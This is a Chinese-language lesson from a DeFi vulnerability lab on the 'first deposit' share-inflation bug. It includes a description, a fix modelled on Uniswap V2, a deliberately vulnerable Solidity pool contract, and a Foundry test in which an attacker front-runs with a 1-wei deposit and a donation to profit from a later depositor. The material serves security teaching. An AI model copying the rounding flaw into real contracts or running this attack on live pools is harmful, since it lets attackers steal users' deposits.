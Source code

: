 [first-deposit.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/first-deposit.sol)

# 首次存款错误

**名称：** 首次存款错误

**描述：** 第一个矿池存款人可能会抢先交易，并被盗取部分存款。在这种情况下，我们可以控制变量“_supplied”。 通过存入少量贷款代币来获得矿池代币，我们可以抢先其他储户的交易，并通过大量“捐赠”抬高矿池代币的价格。 因此，攻击者可以提取比他们最初拥有的更多的贷款代币。

出现这个计算问题是因为，在 Solidity 中，如果用户的池代币值小于 1，它实际上会向下舍入到 0。

**解决办法：**

考虑在第一次存款期间铸造最少量的矿池代币并将其发送到零地址，这会增加攻击成本。 Uniswap V2 通过将前 1000 个 LP 代币发送到零地址解决了这个问题。 在这种情况下也可以做同样的事情，即当totalSupply() == 0时，将第一个最小流动性LP代币发送到零地址以实现份额稀释。

**参考：**

https://defihacklabs.substack.com/p/solidity-security-lesson-2-first

https://github.com/sherlock-audit/2023-02-surge-judging/issues/1

https://github.com/transmissions11/solmate/issues/178

**合约样例:**

```jsx
contract MyToken is ERC20, Ownable {
    constructor() ERC20("MyToken", "MTK") {
        _mint(msg.sender, 10000 * 10 ** decimals());
    }

    function mint(address to, uint256 amount) public onlyOwner {
        _mint(to, amount);
    }
}

contract SimplePool {
    IERC20 public loanToken;
    uint public totalShares;

    mapping(address => uint) public balanceOf;

    constructor(address _loanToken) {
        loanToken = IERC20(_loanToken);
    }

    function deposit(uint amount) external {
        require(amount > 0, "Amount must be greater than zero");

        uint _shares;
        if (totalShares == 0) {
            _shares = amount;
        } else {
            _shares = tokenToShares(
                amount,
                loanToken.balanceOf(address(this)),
                totalShares,
                false
            );
        }

        require(
            loanToken.transferFrom(msg.sender, address(this), amount),
            "TransferFrom failed"
        );
        balanceOf[msg.sender] += _shares;
        totalShares += _shares;
    }

    function tokenToShares(
        uint _tokenAmount,
        uint _supplied,
        uint _sharesTotalSupply,
        bool roundUpCheck
    ) internal pure returns (uint) {
        if (_supplied == 0) return _tokenAmount;
        uint shares = (_tokenAmount * _sharesTotalSupply) / _supplied;
        if (
            roundUpCheck &&
            shares * _supplied < _tokenAmount * _sharesTotalSupply
        ) shares++;
        return shares;
    }

    function withdraw(uint shares) external {
        require(shares > 0, "Shares must be greater than zero");
        require(balanceOf[msg.sender] >= shares, "Insufficient balance");

        uint tokenAmount = (shares * loanToken.balanceOf(address(this))) /
            totalShares;

        balanceOf[msg.sender] -= shares;
        totalShares -= shares;

        require(loanToken.transfer(msg.sender, tokenAmount), "Transfer failed");
    }
}
```

***\*测试方法:\****

仿真测试 --contracts src/test/**first-deposit.sol**-vvvv

```jsx
// Function to test the first deposit process
    function testFirstDeposit() public {
        // Alice's address is set as the first address in the virtual machine
        address alice = vm.addr(1);
        
        // Bob's address is set as the second address in the virtual machine
        address bob = vm.addr(2);
        
        // Transfers 1 Ether plus 1 wei to Alice's account from the MyTokenContract
        MyTokenContract.transfer(alice, 1 ether + 1);
        
        // Transfers 2 Ether to Bob's account from the MyTokenContract
        MyTokenContract.transfer(bob, 2 ether);

        // Initiates a "prank" on Alice's account in the virtual machine
        vm.startPrank(alice);
        
        // Alice approves the SimplePoolContract to spend 1 wei of her tokens
        MyTokenContract.approve(address(SimplePoolContract), 1);
        
        // Alice deposits 1 wei into the SimplePoolContract, receiving 1 pool token in return
        SimplePoolContract.deposit(1);

        // Alice transfers 1 Ether to the SimplePoolContract, which inflates the price of the pool tokens
        MyTokenContract.transfer(address(SimplePoolContract), 1 ether);

        // Stops the prank on Alice's account
        vm.stopPrank();
        
        // Initiates a prank on Bob's account
        vm.startPrank(bob);
        
        // Bob approves the SimplePoolContract to spend 2 Ether of his tokens
        MyTokenContract.approve(address(SimplePoolContract), 2 ether);
        
        // Bob deposits 2 Ether into the SimplePoolContract, but due to the inflated price, he only receives 1 pool token
        SimplePoolContract.deposit(2 ether);
        
        // Stops the prank on Bob's account
        vm.stopPrank();
        
        // Initiates a prank on Alice's account
        vm.startPrank(alice);

        // Gets the balance of the SimplePoolContract in MyTokenContract
        MyTokenContract.balanceOf(address(SimplePoolContract));

        // Alice withdraws 1 pool token and gets 1.5 Ether, thus making a profit
        SimplePoolContract.withdraw(1);
        
        // Asserts that Alice's balance should now be 1.5 Ether. If it's not, it throws an error
        assertEq(MyTokenContract.balanceOf(alice), 1.5 ether);
        
        // Logs Alice's balance in the console
        console.log("Alice balance", MyTokenContract.balanceOf(alice));
    }
```

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fbf5edaeb-708c-433d-b87f-9fd9a16b7633%2FUntitled.png?table=block&id=9f907b3b-45de-448e-ae5b-a3c771d9743f&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)